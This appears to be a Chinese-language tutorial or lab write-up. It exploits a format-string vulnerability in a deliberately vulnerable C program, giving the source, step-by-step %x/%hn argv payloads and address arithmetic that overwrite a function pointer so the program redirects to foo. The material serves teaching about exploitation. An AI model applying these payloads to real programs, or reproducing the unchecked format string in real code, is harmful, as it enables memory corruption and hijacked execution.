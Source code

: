 ```c++ foo.cpp

}

int main(int argc, char* argv[]){ 
	//__asm int 3 
	int iTmp = 100; 
	printf("%.300x%hn",11, &iTmp); 
	FILE* pFile;

	//a little cheating to make the example easy
	printf("Address of foo is %p\n", foo);

	//this will only open existing files
	pFile = fopen(argv[1], "r");

	if(pFile == NULL)
	{
		//PrintMessage(argv[1], errno);
		PrintMessage(argv[1], errno);
	}
	else
	{
		printf("Opened %s\n", argv[1]);
		fclose(pFile);
	}
	return 0;
}
```

{% note default %}
`main`函数中根据命令行提供的参数打开对应的文件。如果这个文件不存在，那么就调用`PrintMessage`函数打印相应的错误信息。在`PrintMessage`函数中把错误分为`GhastlyError`和`RecoverableError`两类。要想调用`foo`函数，可以通过`%n`把`fErrFunc`函数的地址修改为`foo`函数的地址。命令行参数为：`%x%x…%x%x%n`+fErrFunc函数指针的地址。`snprintf`之后`buf`为`"Can'tFind%x%x…%x%x%n"`+fErrFunc函数指针的地址，接下来由于`fprintf(stdout, buf)`中缺少了`argument`参数，所以已打出的字符总数通过`%n`被写入fErrFunc函数指针的地址。通过控制`%x`调整已打出的字符总数就能达到我们的目的。 
{% endnote %}

1. 首先传入一串`%x`
   {% codeblock lang:c line_number:false %} 
   argv="%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x"
   {% endcodeblock %}
2. `fErrFunc`在`0x12ff18`位置上，`foo`在`0x401014`上，`2578`是`%x`的ASCII码。 {% asset_img r1.png %}
3. 加上`%pABC`
   {% codeblock lang:c line_number:false %} 
   argv="%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%pABC"
   {% endcodeblock %} 
   {% asset_img r2.png %}
4. 我们需要把`\x18\xff\x12`放在一个可写的位置上，在前面加上`.`以调整输出内容 {% asset_img r3.png %}
5. 现在把`%p`换为`%hn`，由于多了一个`h`，所以前面要少一个`.`，在后面我们还要放上`\x18\xff\x12`。 {% asset_img r4.png %} 
   {% note info no-icon %} 
   此时<code>0x12ff18</code>的位置已经被更改为<code>0x40017e</code>。 
   {% endnote %}
6. `foo`的地址是`0x00401014`，现在我们写入的值是`0x0040017E`，还差3734个字节。 {% asset_img r5.png %} 
   {% note info %}
   这里是3744不是3734，因为原来第一个`%x`打印了6个字节，为了对齐删掉了4个`.`又少打印了4个字节，所以要把总共少打印的这10个字节加回去。从上图可以看出第一个`%x`对应的内容是`0012FF80`，只打印了`12FF80`；第二个`%x`对应的内容是`00000000`，只打印了`0`；从第三个`%x`开始正常打印8个字节。 
   {% asset_img r6.png "这样构造，即可成功" %} 
   {% endnote %}
7. 利用成功。 {% asset_img rsuccess.png "成功弹框" %}
